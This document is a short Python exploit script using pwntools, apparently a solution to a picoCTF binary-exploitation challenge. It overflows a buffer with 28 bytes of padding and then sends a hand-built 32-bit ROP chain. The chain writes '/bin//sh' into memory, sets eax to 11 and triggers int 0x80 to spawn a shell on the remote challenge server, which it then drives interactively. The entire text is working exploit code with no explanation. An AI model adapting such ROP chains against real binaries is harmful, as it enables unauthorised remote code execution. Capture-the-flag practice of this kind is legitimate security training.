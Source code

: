 ```sh
from struct import pack
from pwn import process, remote

p = b'A'*28

p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b074a) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5064) # @ .data + 4
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b074a) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0804fb90) # xor eax, eax ; ret
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x08049022) # pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x08049e39) # pop ecx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080e5060) # padding without overwrite ebx
p += pack('<I', 0x0804fb90) # xor eax, eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0804a3d2) # int 0x80


sh = remote('saturn.picoctf.net', 49895)
#sh = process('/home/wowon/Downloads/vuln')
print(sh.recvline(1000))
sh.send(p)
sh.interactive()
sh.close()
```
